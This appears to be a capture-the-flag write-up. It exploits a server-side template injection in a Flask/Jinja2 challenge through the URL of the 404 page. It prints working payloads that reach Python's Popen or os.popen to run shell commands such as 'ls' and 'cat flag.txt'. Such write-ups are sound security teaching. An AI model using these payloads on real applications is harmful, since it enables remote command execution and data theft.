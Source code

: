 # __*Can you exploit this simple mistake?*__

<img src="images/templated_01.PNG">
<br />

The given url takes us to this main page. As we can see the author already gave us the infrastructure underneath the web page. 
__Flask/Jinja2__ is known to be vulnerable to a Server Side Template Injection (SSTI), as already the name of the challenge suggested. So let's go for this path.

First, we want to find where we can insert an input. Since there's no form, html input tag or anything else in the page, we can try in the url. It's common for the server to handle the 404 error page, so let's put a random path in the url.

<img src="images/templated_02.PNG">
<br />

Found. The server answer with an html page where the actual url we inserted is replicated. That's our input. To see if this is vulnerable to SSTI we can try some basic payloads:

<img src="images/templated_03.PNG">
<br />

To resume, we want to write something like this:
<br />
<http://remote_ip:port/{{template_payload}}>

Usually, the most difficult thing when trying to exploit a SSTI is to bypass the filters. After a couple of tries, we can easily conclude that the server has not filters to bypass, and displays our input without modification.

## __*Payload*__

Let's get into the payload. Since we don't know where the flag is, the easiest thing to do is to write a payload to execute some shell commands. We are particularly interested in __*ls*__ (to find the flag) and __*cat*__ (to print the flag). A common class to use is __*Popen*__. To get it we can use the string inheritance tree, just starting from an empty space '' (instance of string). 

__{{''.__class__.mro()[1].__subclasses__()}}__

<img src="images/templated_04.PNG">
<br />

Now that we have the list, we have to find __*Popen*__ in this hundreds of entries. A few rows of python will do the trick:

<img src="images/templated_05.PNG">
<br />

Our payload now will be something like this:

{{''.__class__.mro()[1].__subclasses__()[414]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

<img src="images/templated_06.PNG">
<br />

We printed the root path, and as we can see we already have here the flag in __*flag.txt*__ file. So let's print it. This is the final payload:

{{''.__class__.mro()[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

<img src="images/templated_07.PNG">
<br />

<br />
<br />
<br />
<br />

__N.B__
Just for the sake of completeness, this is not the only way to obtain the flag, nor even to obtain the __*Popen*__ class. Here's another working payload:

{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}

<img src="images/templated_08.PNG">
<br />

